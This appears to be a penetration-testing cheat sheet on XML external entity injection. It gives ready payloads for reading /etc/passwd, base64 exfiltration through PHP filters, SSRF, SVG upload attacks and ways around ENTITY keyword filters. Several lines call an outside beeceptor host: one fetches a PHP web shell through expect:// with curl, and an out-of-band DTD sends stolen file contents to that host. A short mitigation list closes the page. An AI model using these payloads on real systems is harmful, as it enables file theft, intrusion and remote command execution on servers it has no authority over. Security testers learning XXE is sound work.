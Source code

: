 ```yaml
---
description: https://app.beeceptor.com/
---
```


# XML external entity (XXE) injection

<figure><img src="../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

#### Identifying

1. **Identify XML User Input**: Look for web pages or forms that accept XML input from users. This can include forms that submit data in XML format to the server.
2. **Inspect Input Filtering and Sanitization**: Check if the application applies proper input filtering or sanitization to XML input. Lack of filtering or sanitization increases the risk of XXE vulnerabilities.
3. **Observe Response Handling**: Pay attention to how the application handles user input in the response. If the application reflects XML elements back to the user without encoding, it may be vulnerable to XXE.
4. **Analyze DTD Declaration**: Determine if the XML input includes a Document Type Definition (DTD) declaration. If present, it may allow for entity declaration and expansion, leading to XXE.
5. **Add Custom Entity**: Inject a custom entity into the XML input to test for XXE. This can be done by adding a DTD declaration and defining a new entity within it.
6. **Test Entity Replacement**: Verify if the application replaces the custom entity with its defined value in the response. If the value of the entity is reflected back, it indicates potential XXE vulnerability.
7. **Check Content-Type**: Even if the application primarily uses JSON format, try changing the Content-Type header to application/XML. Some applications may accept XML data even if they primarily handle JSON.
8. **Convert JSON to XML**: If necessary, convert JSON data to XML format using online tools. Submit the XML data to the application and test for XXE vulnerabilities as described above.

## Error Based XXE

### Read File

```xml
<!--Linux -->
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read  SYSTEM "file:///etc/passwd">]>
<check>
    <proid>&read;</proid>
</check>
```

<figure><img src="../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

## Blind Data Exfiltration

### PHP Filter&#x20;

{% code overflow="wrap" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [<!ENTITY read SYSTEM "php://filter/convert.base64-encode/resource=/index.php"> ]>
<Check><proid>&read;</proid></Check>
```
{% endcode %}

## Code Execution

PHP Wrapper <mark style="color:red;">**expect://ls**</mark>

```bash
echo '<?php system($_REQUEST['cmd'])?>' > shell.php
#up server 
python3 -m http.server 80 
```

to execute&#x20;

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'https://h3ckt00r.free.beeceptor.com/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

{% hint style="warning" %}
The <mark style="color:red;">**expect**</mark> module is not enabled/installed on modern PHP servers by default, so this attack may not always work.
{% endhint %}

## SSRF Attack

```sml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://sub.vulnerable.com/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### CDATA with XXE and SSRF

```xml
<?xml version="1.0"?>
<!DOCTYPE hacktor [ <!ENTITY read SYSTEM "https://h3ckt00r.free.beeceptor.com">]>
    <root>
        <data><![CDATA[&read;]]></data>
    </root>

```

## File Upload

{% code overflow="wrap" %}
```xml
<!-- exploit.svg -->

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>

<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">

  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

### OUT-OF\_BAND (OOB)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY % read SYSTEM "https://h3ckt00r.free.beeceptor.com/xxe.dtd" > ]>

```

in Server

{% code overflow="wrap" %}
```xml
<!DOCTYPE h3ckt00r [ <!ENTITY % read SYSTEM "php://filter/convert.base64-encode/resource=file:///etc/passwd" > ]>
<!ENTITY % test "<!ENTITY &#x25; snedfile SYSTEM 'https://h3ckt00r.free.beeceptor.com/?x=%read;'>">
%test;
%sendfile;
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

### Automated OOB Exfiltration

{% code overflow="wrap" %}
```bash
0xN1ghtM4r3@htb[/htb]$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending a request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
{% endcode %}



## How to Find XEE

**● XML file upload (e.g config files)**&#x20;

**● XML input fields**&#x20;

**● XML based APIs**&#x20;

**● XML based files (RSS, SVG)**

## how to bypass if filters " ENTITY " word

### Case1: **Manipulation (Uppercase/Lowercase)**

```xml
<!eNtItY h3ckt00r SYSTEM "file:///etc/passwd">
```

### Case2: Encoding

* **HTML encoding**:

```xml
<!&#69;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#69; -->
```

* Hexadecimal enconding

```xml
<!&#x45;NTITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- e -> &#x45; -->
```

* Whitespace Bypasses (Extra Spaces or Newlines) Or using Comment

```xml
<!EN TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR --> 
<!EN
TITY h3ckt00r SYSTEM "file:///etc/passwd">
<!-- OR using Comment -->
<!E<!-- Comment -->NTITY xxe SYSTEM "file:///etc/passwd">
```

* CDATA

```xml
<!DOCTYPE root [
  <!ENTITY % data "<![CDATA[ENTITY]]">
  %data;
]>
```

## How TO Test XXE **Methodology**

1. Find XXE Data Entry Point
2. Change the XML object to anything.
3. Try to declare a reference entity or parameter entity. **`<!DOCTYPE hacktor [ <!ENTITY xxe  SYSTEM "Hello">]>`**&#x20;
4. test Blind get server and add reference&#x20;
5. if now XML format test **Xinclude**&#x20;

## **Mitigation and** Prevention

* Avoiding Outdated Components
* Using Safe XML Configurations
  * Disable referencing custom <mark style="color:red;">**`Document Type Definitions (DTDs)`**</mark>
  * Disable referencing <mark style="color:red;">**`External XML Entities`**</mark>
  * Disable <mark style="color:red;">**`Parameter Entity`**</mark><mark style="color:red;">** **</mark><mark style="color:red;">**processing =>**</mark>&#x20;
    * ```php
      libxml_disable_entity_loader(true);
      ```
  * Disable support for <mark style="color:red;">**`XInclude`**</mark>
  * Prevent <mark style="color:red;">**`Entity Reference Loops`**</mark>
